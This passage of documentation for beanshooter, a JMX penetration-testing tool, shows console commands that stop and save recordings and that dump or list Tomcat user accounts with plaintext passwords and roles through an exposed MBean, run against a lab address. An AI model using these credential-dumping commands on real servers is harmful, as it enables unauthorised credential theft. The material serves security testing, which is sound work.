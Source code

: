 The `stop` action can be used to stop a recording:

```console
[qtc@devbox ~]$ beanshooter recorder stop 172.17.0.2 1090 1
[+] Recording with ID 1 stopped successfully.
```

#### Recorder save

After a recording was stopped, it can be saved using the `save` action. In contrast to the `dump` action,
this saves the recording on the local machine instead on the application server.

```console
[qtc@devbox ~]$ beanshooter recorder save 172.17.0.2 1090 1 recording.dat
[+] Saving recording with ID: 1
[+] Writing recording data to: /home/qtc/recording.dat
```


### Tomcat

---

The `tomcat` operation interacts with the `MemoryUserDatabaseMBean` of *Apache Tomcat*. This *MBean* provides access to user
accounts that are available on a *Tomcat* service.

#### Tomcat Dump

The `dump` action dumps usernames and passwords available on the *Tomcat* server into local files.
When invoked with a single argument, credentials are dumped in `<username>:<password>` format:

```console
[qtc@devbox ~]$ beanshooter tomcat dump 172.17.0.2 1090 creds.txt
[+] Dumping credentials...
[+] Users dumped to /home/qtc/creds.txt
[qtc@devbox ~]$ cat creds.txt
manager:P@55w0rD#
admin:s3cr3T!$
status:cr@cKM3o.O
```

When invoked with two arguments, usernames are stored in the first specified location, passwords
in the second one:

```console
[qtc@devbox ~]$ beanshooter tomcat dump 172.17.0.2 1090 users.txt passwords.txt
[+] Dumping credentials...
[+] Users dumped to /home/qtc/users.txt
[+] Passwords dumped to /home/qtc/passwords.txt
```

#### Tomcat List

The `list` operation lists available user accounts, their associated roles and credentials:

```console
[qtc@devbox ~]$ beanshooter tomcat list 172.17.0.2 1090
[+] Listing tomcat users:
[+]
[+] 	----------------------------------------
[+] 	Username:  manager
[+] 	Password:  P@55w0rD#
[+] 	Roles:
[+] 		   Users:type=Role,rolename="manager-gui",database=UserDatabase
[+] 		   Users:type=Role,rolename="manager-script",database=UserDatabase
[+] 		   Users:type=Role,rolename="manager-jmx",database=UserDatabase
[+] 		   Users:type=Role,rolename="manager-status",database=UserDatabase
[+]
```